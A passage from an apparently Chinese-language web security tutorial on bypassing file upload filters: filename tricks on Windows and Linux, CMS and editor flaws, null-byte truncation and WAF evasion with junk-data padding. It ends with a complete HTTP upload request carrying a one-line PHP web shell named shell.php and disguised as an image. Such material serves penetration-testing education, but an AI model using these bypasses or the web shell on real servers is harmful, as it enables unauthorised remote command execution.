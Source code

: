     会被windows系统自动去掉不符合规则符号后面的内容。
2. linux下后缀名大小写

    在linux下，如果上传php不被解析，可以试试上传pHp后缀的文件名。

### 2.6 CMS、编辑器漏洞

1. CMS漏洞：比如说JCMS等存在的漏洞，可以针对不同CMS存在的上传漏洞进行绕过。
2. 编辑器漏洞：比如FCK，ewebeditor等，可以针对编辑器的漏洞进行绕过。


### 2.7 配合其他规则

0x00截断：基于一个组合逻辑漏洞造成的，通常存在于构造上传文件路径的时候
- test.php(0x00).jpg
- test.php%00.jpg
- 路径/upload/1.php(0x00)，文件名1.jpg，结合/upload/1.php(0x00)/1.jpg

伪代码演示：
```PHP
name= getname(httprequest) //假如这时候获取到的文件名是 help.asp.jpg(asp 后面为 0x00)
type =gettype(name)        //而在 gettype()函数里处理方式是从后往前扫描扩展名，所以判断为 jpg
if(type == jpg)
   SaveFileToPath(UploadPath.name, name)   //但在这里却是以 0x00 作为文件名截断
//最后以 help.asp 存入路径里
```

### 2.8 WAF绕过

**2.8.1 垃圾数据**

有些主机WAF软件为了不影响web服务器的性能，会对校验的用户数据设置大小上限，比如1M。此种情况可以构造一个大文件，前面1M的内容为垃圾内容，后面才是真正的木马内容，便可以绕过WAF对文件内容的校验；

可以将垃圾数据放在数据包最开头，这样便可以绕过对文件名的校验。

也可以将垃圾数据加上Content-Disposition参数后面，参数内容过长，可能会导致waf检测出错。

```PHP
POST /upload.php HTTP/1.1
TE: deflate,gzip;q=0.3
Connection: TE, close
Host: localhost
User-Agent: libwww-perl/5.803
Content-Type: multipart/form-data; boundary=xYzZY
Content-Length: 155
/////////可以在这里添加a=11111111111....
--xYzZY
Content-Disposition: form-data; name="userfile"; filename="shell.php";/////////可以在这里添加a=11111111111....
Content-Type: image/gif
/////////可以在这里添加a=11111111111....
<?php system($_GET['command']);?>
--xYzZY-
```
